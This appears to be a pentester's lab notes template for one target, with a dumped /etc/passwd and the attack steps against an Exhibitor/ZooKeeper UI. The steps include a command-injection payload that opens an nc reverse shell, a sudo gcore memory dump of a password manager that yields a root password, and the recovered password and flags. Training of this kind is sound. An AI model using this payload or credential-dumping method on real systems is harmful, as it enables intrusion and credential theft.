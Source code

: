 |   |   |
|---|---|
|📌 IP|📦 Name|
|||
|🐙 Services||
|||
|🗺[Ports](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={36B49D4F-D13A-4B86-A54D-59611CB898E9}&FF&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|🗃[SMB](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&4B&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|
|🕸[Web](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&39&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|💾[FTP](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&53&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|
|🧩[Credentials](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&42&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|🎯[Other](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&5B&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|
|👣[Steps](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={A3341C1F-CCFA-4CE7-8BCA-73D4D422073E}&7F&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|💰 [Proof/Loot](onenote:#PENTEST%20TEMPLATE%20v2&section-id={6C38DFA3-13AE-4D1B-AE88-77D7D4099297}&page-id={FB2D30C1-FDA5-4806-8D71-81547E9C02D9}&object-id={631DB266-6646-4C3A-9778-91556803DF95}&85&base-path=https://d.docs.live.net/0d291379410111e9/Documents/PTESTING/PENTEST%20TEMPLATE%20v2.one)|

|   |
|---|
|👁️ NMAP scan output|
||

|   |
|---|
|🕸 Web|
||
|🧩 Credentials|
||
|🗃  SMB|
||
|💾 FTP|
||
|🎯 Other|
|root:x:0:0:root:/root:/bin/bash<br><br>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br><br>bin:x:2:2:bin:/bin:/usr/sbin/nologin<br><br>sys:x:3:3:sys:/dev:/usr/sbin/nologin<br><br>sync:x:4:65534:sync:/bin:/bin/sync<br><br>games:x:5:60:games:/usr/games:/usr/sbin/nologin<br><br>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br><br>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br><br>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br><br>[news:x:9:9:news:/var/spool/news:/usr/sbin/nologin](news:x:9:9:news:/var/spool/news:/usr/sbin/nologin)<br><br>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br><br>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br><br>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br><br>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br><br>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br><br>irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br><br>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br><br>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br><br>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br><br>systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin<br><br>systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin<br><br>systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin<br><br>messagebus:x:104:110::/nonexistent:/usr/sbin/nologin<br><br>dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin<br><br>usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin<br><br>rtkit:x:107:111:RealtimeKit,,,:/proc:/usr/sbin/nologin<br><br>pulse:x:108:114:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin<br><br>speech-dispatcher:x:109:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false<br><br>avahi:x:110:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin<br><br>saned:x:111:118::/var/lib/saned:/usr/sbin/nologin<br><br>lightdm:x:112:119:Light Display Manager:/var/lib/lightdm:/bin/false<br><br>systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin<br><br>sshd:x:113:65534::/run/sshd:/usr/sbin/nologin<br><br>colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin<br><br>charles:x:1000:1000::/home/charles:/bin/bash|

|   |
|---|
|👣 Steps|
|[http://192.168.226.98:8080/exhibitor/v1/ui/index.html](http://192.168.226.98:8080/exhibitor/v1/ui/index.html)|
|ZooKeeper exploit [https://talosintelligence.com/vulnerability_reports/TALOS-2019-0790](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0790)  or exploit-db/searchsploit|
|export JAVA_OPTS="-Xms1000m -Xmx1000m"<br><br>$(/bin/nc -e /bin/sh 192.168.45.187 4444 &)|
|Once inside grab charles' local.txt|
|sudo -l reveals /usr/bin/gcore|
|ps -aux reveals password manager|
|sudo gcore -o out 494 to dump pass manager memory|
|strings out.494 reveals root pass -ClogKingpinInning731|
|su root|
|cat /roof/proof.txt|

|   |   |   |
|---|---|---|
||💰 Proof / Loot||
||cat proof.txt; whoami; hostname; ifconfig<br><br>hostname && whoami && cat proof.txt && ip a|hostname && whoami.exe && type proof.txt && ipconfig /all|
||🎌 Flag|👨‍💻 Screenshot|
|local|77f1114263d3cf5b3033e801d5482df0||
|proof|dff7c5e36d6df388f4ca836e3b9521f0||
